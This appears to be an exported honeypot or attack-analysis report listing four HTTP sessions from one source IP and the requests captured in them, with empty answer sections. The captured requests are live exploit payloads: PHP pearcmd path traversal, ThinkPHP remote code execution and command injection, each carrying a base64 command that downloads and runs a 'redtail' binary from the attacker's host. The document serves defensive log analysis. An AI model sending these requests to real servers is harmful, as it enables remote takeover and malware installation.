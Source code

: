 
<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Summarize the Sessions involved in the attack.

**Run ID:** `run_h3jmJEdIjIjfKjAyzZ61fX6U`

### Funciton Calls
**Step ID:** `step_AzXva7Vl7GXsoetIATJSZmYG`

**Function called:** `get_attack_attrs`

| Argument | Value |
| --- | --- |
| `attrs` | `['sessions']` |

| Output | Value |
| --- | --- |
| `sessions` | `['Session Ch5ENP298iuu5k136g HTTP 45.95.147.236:56948 -> 172.31.5.68:8080 HTTP Requests: 4, Duration: 0.49s', 'Session CY2d062wJvT4GaKt53 HTTP 45.95.147.236:42048 -> 172.31.5.68:8080 HTTP Requests: 2, Duration: 0.14s', 'Session CnC26R3duTP6Gzuy9e HTTP 45.95.147.236:45492 -> 172.31.5.68:80 HTTP Requests: 4, Duration: 0.50s', 'Session CfNwpL2eeSGPQyXck HTTP 45.95.147.236:47124 -> 172.31.5.68:80 HTTP Requests: 4, Duration: 0.51s']` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Analyze the HTTP sessions in the context of the attack. Include the URIs, HTTP headers, and any other relevant info.

**Run ID:** `run_s1Lf1HoYVi4N2RvWl8z4FfV0`

### Funciton Calls
**Step ID:** `step_YwmEF2jjGeCMC58f2BvMQoQ8`

**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `Ch5ENP298iuu5k136g` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{'GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls"));?>+/tmp/ohhellohttpserver.php HTTP/1.1\nUser-Agent: Mozilla/5.0\nHost: 54.67.87.80:8080', 'GET /index.php?lang=../../../../../../../../tmp/ohhellohttpserver HTTP/1.1\nUser-Agent: Mozilla/5.0\nHost: 54.67.87.80:8080', 'GET /index.php?s=index/index/index/think_lang/../../extend/pearcmd/pearcmd/index&cmd=echo${IFS}bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls\|base64${IFS}-d\|sh HTTP/1.1\nUser-Agent: Mozilla/5.0\nHost: 54.67.87.80:8080', 'GET /index.php?s=/index/\\x09hink\\x07pp/invokefunction&function=call_user_func_array&vars[0]=eval&vars[1][]=\'shell_exec(base64_decode("bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls"));\' HTTP/1.1\nUser-Agent: Mozilla/5.0\nHost: 54.67.87.80:8080'}` |
